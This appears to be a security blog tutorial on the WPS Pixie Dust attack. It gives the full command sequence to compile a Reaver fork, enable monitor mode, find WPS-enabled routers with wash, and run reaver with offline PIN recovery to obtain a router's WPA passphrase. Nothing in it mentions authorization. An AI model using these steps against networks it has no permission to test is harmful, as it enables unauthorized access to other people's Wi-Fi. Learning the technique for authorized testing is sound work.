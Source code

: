 ```yaml
---
title: WPS Pixie Dust Attack
date: 2025-04-26 00:00:00 +/-TTTT
categories:
  - Others
tags:
  - wps
  - pixie-dust
  - airmon-ng
  - wash
  - reaver
image: preview-image.png
media_subpath: /assets/img/Others/2025-05-31-wps-pixie-dust-attack/
---
```



## What is WPS?

**Wifi Protected Setup** (WPS) is an optional certification program from the Wi-Fi Alliance that is designed to ease the task of setting up and configuring security on wireless local area networks. Wi-Fi Protected Setup enables typical users who possess little understanding of traditional Wi-Fi configuration and security settings to automatically configure new wireless networks, add new devices and enable security.

## Now what is a Pixie Dust Attack?

A **Pixie-Dust** **attack** works by brute-forcing the key for a protocol called WPS. WPS was intended to make accessing a **router** easier, and it did – for attackers. The protocol uses an 8-digit PIN that can be cracked using a mathematical flaw in the handshake process. This allows attackers to gain access to the network without needing the Wi-Fi password. Once the PIN is retrieved, the attacker can connect to the router and bypass encryption, compromising the network's security.

## Introduction to Reaver

Reaver is an open-source tool for performing brute force attack against Wifi Protected Setup (WPS) registrar PINs in order to recover WPA/WPA2 passphrases. This tool has been designed to be a robust and practical and has been tested against a wide variety of access points and WPS implementations.

The original Reaver performs a brute force attack against the AP, attempting every possible combination in order to guess the AP’s 8 digit pin number. Depending on the target’s Access Point (AP), Reaver will recover the AP’s plain text WPA / WPA2 passphrase in 4-10 hours, on average. But If you are using offline attack and the AP is vulnerable, it may take only a few seconds/minutes.

## Attack

### Step 1 : Download All Dependencies

It’s important to download all dependencies from the repository before proceeding with the attack. Kali Linux includes some of these, but if you’re using another flavor of Linux, it may not. So let’s go through all of them.

First, type into the terminal:

```bash
sudo apt-get update
```

Then:

```bash
sudo apt-get install build-essential libpcap-dev sqlite3 libsqlite3-dev pixiewps
```

### Step 2 : Clone the GitHub

This attack works by using a fork of Reaver. We’ll need to download, compile, and install the fork. Let’s begin:

* [https://github.com/t6x/reaver-wps-fork-t6x](https://github.com/t6x/reaver-wps-fork-t6x)

```bash
git clone https://github.com/t6x/reaver-wps-fork-t6x
```

### Step 3 : Installation

From your current working directory, type…

```bash
cd reaver-wps-fork-t6x/
cd src/
./configure
make
make install
```

or `sudo make install` if you’re not logged in as root.

### Step 4 : Monitor Mode

Put your interface into monitor mode using

```bash
airmon-ng start {monitor-interface}
```

![](2025-05-31-wps-pixie-dust-attack-1.png)

### Step 5: Find a Target

The easiest way to find a target with WPS enabled is

```bash
wash -i {monitor-interface}
```

Gather the BSSID and channel for the router you want to attack. Make sure you have a strong signal before attempting this attack.

![](2025-05-31-wps-pixie-dust-attack-2.png)

### Step 6 : Launch the Attack

Once you have all the information, simply type in the following command:

```bash
reaver -i {monitor interface} -b {BSSID of router} -c {router channel} -vvv -K 1 -f
```

![](2025-05-31-wps-pixie-dust-attack-3.png)

### Step 7 : Get the Password

There’s the password! Again, this attack won’t work against all routers, but it is definitely more effective than a brute force attack (Pixie Dust: maximum 30 minutes vs Brute Force: minutes to DAYS!)

![](2025-05-31-wps-pixie-dust-attack-4.png)
